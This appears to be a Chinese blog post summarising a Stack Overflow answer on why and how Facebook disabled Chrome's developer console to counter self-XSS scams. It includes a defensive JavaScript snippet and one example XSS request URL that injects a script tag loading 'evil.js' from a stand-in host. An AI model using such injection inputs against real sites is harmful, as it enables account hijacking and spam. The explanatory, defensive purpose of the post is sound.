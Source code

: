 原问题：[How does Facebook disable the browser's integrated Developer Tools?](http://stackoverflow.com/questions/21692646/how-does-facebook-disable-the-browsers-integrated-developer-tools)

提问者用Chome打开Facebook时，发现Developer Tools里的Console被禁用了。
![chrome-dev-tools-at-facebook-page](http://i.stack.imgur.com/Wiatp.png)

甚至连Chrome console的自动提示功能都失效了。

![chrome-dev-console-auto-complete-disabled](http://i.stack.imgur.com/j0Zmx.png)

他很好奇是怎么做到的。

现在排名第一的答案，正是来自于当时做这件事的Facebook工程师。我们可以从他的回答中了解到一些原委。

* [为什么禁用Chome Console](#why-disable-chrome-console)
* [如何做到的](#how-to-make-it)

##Why Disable Chrome Console
这是为了防止[special social engineering attack](https://www.facebook.com/photo.php?v=956977232793) _(Facebook链接，需翻墙查看)_

###Social-Engineering Attack
上面链接里的视频很好的解释了这个问题。考虑到有些朋友可能打不开那个页面，我在这儿就复述一遍视频里讲的。

####Share Baiting
钓鱼分享：做一个网友可能会感兴趣的视频或页面，诱发他分享到Facebook。其实这个分享链接是个钓鱼链接。
####self-XSS
他的好友在Facebook上看到了他的这个分享，点击链接后发现需要做一些操作才能查看：

* 点击当前页面地址栏
* 按键盘的`J`键
* 按`Ctrl+v`粘贴，回车

然后就会发现好友分享的那个视频里什么也没有，反而自己的Facebook自动发布了一些广告或其他信息。这就是self-XSS攻击。

[Self-XSS](https://www.facebook.com/help/246962205475854) 又称为跨站脚本攻击，设计用于诱使您泄露 Facebook 帐户访问权限。如果诈骗人获得您帐户的访问权限，他们可以用您的名义发布内容或评论。要避免 Self-XSS 攻击，切勿复制并粘贴可疑链接。

###Why Chrome
因为Chrome是唯一能受到这种攻击的主流浏览器。IE9/Firefox都能有效防止这类攻击。

###Why disable console
常见的XSS攻击是类似这样：
```
// Normal request URL
http://host/request?q=xxx
// Request URL with XSS-attach
http://host/request?%q=3Cscript src=siteB/evil.js%3E%3Cscript%3E
```

防止XSS攻击是web server端程序要做的，因为一般是表单提交或者http request中产生XSS。但self-XSS攻击脚本的引入是用户自己完成的，脚本的下载和执行是Chrome完成的，Facebook后端处理post或者http request的程序根本没参与这个过程，什么也做不了。

但Facebook总得做点儿啥，不然用户可能认为这是它的bug，或者它做的不够才让spam盛行。在搞清楚这种攻击的执行原理之后，决定从Console下手，使得恶意脚本无法自执行。

但考虑到影响范围，Facebook只是选择一部分用户来启动这种应对手段。可能是筛选出可能受到这种攻击的用户。

##How To Make It
前面说了，搞Console的目的是使得恶意脚本无法自执行。

Chome把所有console里的代码都封装成这样来运行：
```
with ((console && console._commandLineAPI) || {}) {
  <code goes here>
}
```

###Command Line API
我们来看看这个`console._commandLineAPI`是什么。

简单的说，就是Chrome为其console提供了若干个接口，你在console里可以直接调用它。比如：`copy() && clear() && profile()`。

前面的self-XSS的原理之一，就是利用了`console._commandLineAPI`。

不只是Chrome，[Firefox](http://code.google.com/p/fbug/source/browse/branches/firebug1.7/content/firebug/commandLine.js?r=8810#1169)/[Safari](http://opensource.apple.com/source/WebCore/WebCore-7533.18.1/inspector/InjectedScriptHost.cpp)也同样提供这些console接口*（IE还不清楚）*。只是Safari/Firefox提供的接口比较有限，避免了这类sel-XSS攻击。

因此Facebook做的，就是hack掉`console._commandLineAPI`，重新定义它。

Nexflix[也做了类似的手段](http://stackoverflow.com/a/22216648/1295057)。

Facebook的hack大概长这样
```
Object.defineProperty(window, "console", {
    value: console,
    writable: false,
    configurable: false
});

var i = 0;
function showWarningAndThrow() {
    if (!i) {
        setTimeout(function () {
            console.log("%cWarning message", "font: 2em sans-serif; color: yellow; background-color: red;");
        }, 1);
        i = 1;
    }
    throw "Console is disabled";
}

var l, n = {
        set: function (o) {
            l = o;
        },
        get: function () {
            showWarningAndThrow();
            return l;
        }
    };
Object.defineProperty(console, "_commandLineAPI", n);
Object.defineProperty(console, "__commandLineAPI", n);
```
